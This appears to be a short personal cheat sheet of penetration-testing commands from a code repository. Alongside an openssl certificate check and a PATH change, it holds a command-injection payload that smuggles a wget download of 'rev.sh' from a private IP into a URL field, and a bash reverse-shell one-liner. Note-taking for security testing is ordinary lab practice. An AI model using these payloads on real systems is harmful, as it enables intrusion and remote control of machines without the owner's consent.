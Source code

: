 # LifeLongCommands
All command needed to be noted

# Certificate Check
openssl s_client -showcerts -connect $ip:$port

# Binary Execution Path changing 
export PATH=/home/somedirectory:$PATH

# Command injection
yt_url=;wget${IFS}http://10.4.39.84:8000/rev.sh;

# Reverse Shell cheatsheet
bash -i >& /dev/tcp/$myip/9999 0>&1
